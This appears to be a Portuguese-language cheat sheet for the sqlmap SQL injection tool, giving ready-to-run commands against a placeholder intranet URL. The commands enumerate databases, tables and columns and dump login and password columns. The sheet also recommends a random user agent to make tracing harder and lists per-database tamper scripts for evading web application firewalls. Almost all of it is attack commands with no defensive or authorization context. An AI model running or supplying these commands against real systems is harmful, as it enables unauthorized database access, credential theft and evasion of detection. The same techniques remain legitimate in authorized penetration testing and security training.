 # SQLMAP

Ferramente para automatização de SQL Injection.  
<http://sqlmap.org>

---

Testar todos os bancos de dados de um URL:

```bash
sqlmap -u "http://intranet.alvo.com.br:8080/cat.php?id=3" --dbs
```

---

Especificar um determinado banco de dados:

```bash
sqlmap -u "http://intranet.alvo.com.br:8080/cat.php?id=3" --current-db --dbms=mysql
```

*O **current-db** pega o banco de dados em execução no momento.*

---

Utilizar um agente randômico para dificultar a rastreabilidade:

```bash
sqlmap -u "http://intranet.alvo.com.br:8080/cat.php?id=3" --current-db --dbms=mysql --random-agent
```

---

Acessando o banco de dados e listando as tabelas:

```bash
sqlmap -u "http://intranet.alvo.com.br:8080/cat.php?id=3" --dbms=mysql --random-agent -D nomedobanco --tables
```

---

Listando as colunas da tabela:

```bash
sqlmap -u "http://intranet.alvo.com.br:8080/cat.php?id=3" --current-db --dbms=mysql --random-agent -D nomedobanco -T nomedatabela --columns
```

---

Efetuando o dump das informações:

```bash
sqlmap -u "http://intranet.alvo.com.br:8080/cat.php?id=3" --current-db --dbms=mysql --random-agent -D nomedobanco -T nomedatabela -C 'login,password' --dump
```

*Acima foi efetuado o dump na coluna **login** e **password**.*

---

Há alguns scripts de tamper no sequinte diretório:  
**/usr/share/sqlmap/tamper/**

Utilizando o tamper:

```bash
sqlmap -u "http://intranet.alvo.com.br:8080/cat.php?id=3" --current-db --dbms=mysql --random-agent --tamper="namescript.py"
```

**General scripts:**

```bash
--tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

**Microsoft access:**

```bash
--tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
```

**Microsoft SQL Server:**

```bash
--tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

**MySQL:**

```bash
--tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
```

**Oracle:**

```bash
--tamper=between,charencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes,xforwardedfor
```

**PostgreSQL:**

```bash
--tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,xforwardedfor
```

**SAP MaxDB:**

```bash
--tamper=ifnull2ifisnull,nonrecursivereplacement,randomcase,securesphere,space2comment,space2plus,unionalltounion,unmagicquotes,xforwardedfor
```

**SQLite:**

```bash
--tamper=ifnull2ifisnull,multiplespaces,nonrecursivereplacement,randomcase,securesphere,space2comment,space2dash,space2plus,unionalltounion,unmagicquotes,xforwardedfor
```

---

Tentando formulário:

```bash
sqlmap -u "http://intranet.alvo.com.br:8080/cat.php?id=3" --current-db --dbms=mysql --random-agent --forms
```

---

Especificando formulário para testar:

```bash
sqlmap -u "http://intranet.alvo.com.br:8080/cat.php?id=3" --current-db --dbms=mysql --random-agent --data="campo3="
```
